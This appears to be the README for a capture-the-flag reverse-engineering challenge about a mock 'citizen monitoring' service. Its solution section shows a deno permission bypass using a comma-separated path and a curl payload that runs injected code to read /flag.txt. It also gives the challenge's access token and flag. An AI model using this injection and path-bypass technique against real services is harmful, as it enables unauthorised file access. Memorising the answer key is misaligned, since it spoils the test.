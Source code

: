 # rev | monitoring

## Information

Нам удалось вчёрную получить на руки некоторые из сервисов, встроенных в различные компоненты Megalith, но, к сожалению, только в бинарном виде. В частности, нам достался какой-то из серверов системы мониторинга за населением Metra Veehkim, может получиться как-нибудь разобраться с ним и выяснить, какие данные о нас собирают Арбалеты?

We've managed to (not entirely legally) get our hands on some of the services embedded into the differents components of Megalith, but, sadly, only as binaries. Specifically, we've got one of the servers of the Metra Veehkim citizen monitoring system, do you think it could perhaps somehow help us figure out what kind of data the Arbalests are collecting about us?

## Deploy

Need whale deployment.

```sh
cd deploy
docker compose -p rev-monitoring up --build -d
```

## Public

Provide zip file: [public/monitoring.zip](public/monitoring.zip).

## TLDR

Find source code at the end of the file (e.g using `rabin2 -zzz`), extract it, perform simple reverse engineering (as usual the obfuscation basically stores all strings in an array).

The app executes our code from the "cmd" parameter using deno, and you can specify the entry to read using the "entry" parameter:

```js
const command = Bun.spawn(
  ["/usr/bin/deno", "run", `--allow-read=./${entry}`, cmdPath],
  {
    stderr: "ignore",
    cwd: "entries",
    env: {},
  }
);
```

However, ".." is banned in entry, but you can simply specify a second path using a comma in order to get read access to the root.

```sh
curl http://localhost:1984 -i -H "Monitor-Access-Token: MEGALITH_MONITORING_SYSTEM_EZRVJJCQ4ET3W25BONANMPWPQSRV7JXE" --data-raw '{"cmd":"console.log(new TextDecoder().decode(Deno.readFileSync(\"/flag.txt\")))","entry":"/,/"}'
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{t00-m4ny-su55y-jS-runt1m3s-f7cc17249450a7fb}
